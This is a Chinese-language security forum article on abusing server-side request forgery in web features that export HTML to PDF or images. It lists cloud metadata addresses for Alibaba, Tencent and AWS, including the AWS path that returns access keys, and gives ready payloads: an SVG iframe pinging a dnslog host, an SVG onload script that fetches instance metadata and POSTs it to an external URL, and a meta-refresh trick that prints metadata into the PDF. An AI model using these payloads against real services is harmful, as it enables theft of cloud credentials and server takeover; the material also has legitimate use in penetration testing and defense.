






# 奇安信攻防社区 - 文件导出功能的 SSRF

### 文件导出功能的 SSRF

本文讲述一下 ssrf 加 metadata 的利用方式，其他常规利用方式，好多师傅已经写过了这里就不再赘述。

# 0x00 前言

文章开始前我们先讲述一下 metadata service，也就是云服务器的元数据，每个云服务器厂商都有元数据，只是获取的接口地址不同，获取到的内容也不一样，有些元数据中是可以获取到登录凭证，可以直接接管服务器。由于元数据只能在云服务器上请求特定地址才能获取到，所以也常常用来作为 ssrf 利用方式的一种。

# 0x01 metadata service

## 阿里云

URL：[http://100.100.100.200](http://100.100.100.200/)

基本实例元数据项，就不做展示了，感兴趣的可以查看下官方文档[https://help.aliyun.com/document\\\_detail/214777.htm?spm=a2c4g.11186623.0.0.777a4a07R5OHxw#concept-2078137](https://help.aliyun.com/document%5C_detail/214777.htm?spm=a2c4g.11186623.0.0.777a4a07R5OHxw#concept-2078137)

动态实例元数据项

|     |     |     |
| --- | --- | --- |
| **数据项** | **说明** | **示例** |
| /dynamic/instance-identity/document | 实例标识文档，用于提供实例的身份信息，包括实例 ID、IP 地址等。 | {"zone-id":"cn-hangzhou-i","serial-number":"4acd2b47-b328-4762-852f-99\*\*\*\*","instance-id":"i-bp13znx0m0me8cq\*\*\*\*","region-id":"cn-hangzhou","private-ipv4":"192.168.XX.XX","owner-account-id":"1609\*\*\*\*","mac":"00:16:3e:0f:XX:XX","image-id":"aliyun\_3\_x64\_20G\_alibase\_20210425.vhd","instance-type":"ecs.g6e.large"} |
| /dynamic/instance-identity/pkcs7 | 实例标识签名，供其他方验证实例标识文档的真实性和内容。 | MIIDJwYJKoZIhvcNAQcCoIIDGDCCAxQCAQExCzAJBgUrDgMCGgUAMIIBYQYJKoZIhvcNAQcBoIIBUgSCAU57InpvbmUtaWQiOiJjbi1oYW5nemhvdS1oIiwic2VyaWFsLW\*\*\*\* |

## 腾讯云

URL：[http://metadata.tencentyun.com/latest/meta-data/](http://metadata.tencentyun.com/latest/meta-data/)

能够获取的信息比较少，可以查看下官方文档[https://cloud.tencent.com/document/product/213/4934](https://cloud.tencent.com/document/product/213/4934)

## AWS

URL：[http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)

访问[http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-default-ssm/](http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-default-ssm/)

可以直接获取 AccessKeyId 和 SecretAccessKey

官方文档[https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)

# 0x02 导出功能 SSRF 测试

1、有些网站存在功能，能够将一些将数据分析的表格导出为 pdf 或者图片，如下 POST 数据包，html 文件就是我们要导出的内容，而这里存在 ssrf 漏洞



2、我们将 html 内容修改为

`<svg><iframe src="[http://123312.h41t0y.dnslog.cn"](http://123312.h41t0y.dnslog.cn") width=" " height=" "/></svg>`



可以看到成功触发了 dnslog 请求，说明此处是存在 SSRF 漏洞的。



# 0x03 SVG SSRF

由于 SVG 的功能十分丰富，所以能够处理 SVG 的服务器就很有可能遭受到 SSRF、XSS、RCE 等的攻击，特别是在没有禁用一些特殊字符的情况下。

GitHub 上有个大佬整理了丰富的 svg 攻击 payload

[https://github.com/allanlw/svg-cheatsheet](https://github.com/allanlw/svg-cheatsheet)

我们可以利用如下 payload 去获取 metadata service 中的数据信息。

首先加载一个可以远程获取到的图片，加载成功后，会触发 onload 事件；

使用 Fetch API 接口，将元数据信息在存储到“params”参数中；

服务器向 URL 地址发起携带 params 的 POST 请求，这样我们就可以在历史数据包中找到我们想要的元数据信息了。

同理此方法也可以获取其他想要的数据信息。

```php
<svg width="100%" height="100%" viewBox="0 0 100 100" 
xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<image xlink:href="https://www.baidu.com/img/flexible/logo/pc/result@2.png" height="20" width="20" onload="fetch('http://metadata.tencentyun.com/latest/meta-data/').then(function (response) {
response.text().then(function(text) {
var params = text;
var http = new XMLHttpRequest();
var url = 'https://xxxxxxxxxxxxxxxx/';
http.open('POST', url, true);
http.send(params);
})});" />
</svg>
```



# 0x04 meta refresh

## 利用：

当一些特殊标签比如<svg>,<Iframe>等被禁用后，我们可以使用<meta>0 秒刷新请求元数据，以下为具体 payload

```php
<meta http-equiv="refresh" content="0;url=http://metadata.tencentyun.com/latest/meta-data" />
```

那么目标服务器的 metadata 信息就会打印在输出的 PDF 文件上





## 拓展

应用程序导出数据为 PDF 或图片，会产生 ssrf 的原因，我认为是后端在处理数据的时候，没有进行过滤，导致了恶意代码的运行，那么我们在任意文件上传的漏洞，是不是可以直接上传 svg 文件，达到一些命令执行的效果呢

## 参考

[https://github.com/allanlw/svg-cheatsheet](https://github.com/allanlw/svg-cheatsheet)

[https://infosecwriteups.com/svg-ssrfs-and-saga-of-bypasses-777e035a17a7](https://infosecwriteups.com/svg-ssrfs-and-saga-of-bypasses-777e035a17a7)

[https://twitter.com/kunalp94/status/1502527605836173312](https://twitter.com/kunalp94/status/1502527605836173312)
